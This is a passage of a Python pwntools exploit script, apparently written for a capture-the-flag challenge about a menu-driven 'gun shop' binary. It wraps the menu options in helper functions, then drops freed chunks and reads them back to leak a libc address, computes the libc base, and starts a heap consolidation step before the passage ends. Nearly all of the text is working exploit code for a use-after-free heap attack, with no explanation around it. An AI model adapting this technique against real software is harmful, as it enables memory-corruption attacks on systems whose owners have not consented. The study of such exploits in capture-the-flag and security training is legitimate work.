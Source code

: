```python
    p.sendline("zdWFHVaGx7NQQUeXTIXxckMTSxSxqq5y")

def buy_gun(choice, name_len, name):
    p.sendlineafter("7. Exit", "1")
    p.sendlineafter("2. QBZ95", str(choice))
    p.sendlineafter("of name", str(name_len))
    p.send(name)

def select_gun(idx):
    p.sendlineafter("7. Exit", "2")
    p.sendlineafter("Select a gun", str(idx))
    if not p.recvuntil("Select No.", timeout=0.2):
        log.error("select gun error!")
def list_guns():
    p.sendlineafter("7. Exit", "3")

def rename_gun(idx, name_len, name):
    p.sendlineafter("7. Exit", "4")
    p.sendlineafter("a gun to rename:", str(idx))
    p.sendlineafter("Lenth of name", str(name_len))
    p.sendafter("Input name:", name)

def use_gun(idx, uses):
    p.sendlineafter("7. Exit", "5")
    p.recvuntil("Select gun ")
    leak = p.recvn(4) #info leak
    p.recvuntil("4. Main menu")
    for u in uses:
        p.sendline(str(u))
    p.sendline("4")
    return leak

def drop_gun(idx):
    p.sendlineafter("7. Exit", "6")
    p.sendlineafter("to delete:\n", str(idx))
    ln = p.recvline()
    if "Deleted" not in ln:
        print ln
        log.error("drop gun error!")

def exitp():
    p.sendlineafter("7. Exit", "7")
    

def set_gun_name(name_len, name):
    p.sendlineafter("Lenth of name", str(name_len))
    p.sendafter("Input name", name)

###########################leak libc ################
buy_gun(1, 300, 'A' * 5 + '\n')
buy_gun(2, 16, 'B' * 5 + '\n')
select_gun(0)

drop_gun(1)
drop_gun(0)

leak_libc = u32(use_gun(0, [-1])[:4])
libc.address = leak_libc - 0x7b0 - 1777664
print "libc base address:", hex(libc.address)

#fast consolate
buy_gun(1, 100000, 'a' * 100 + '\n')
drop_gun(0)
```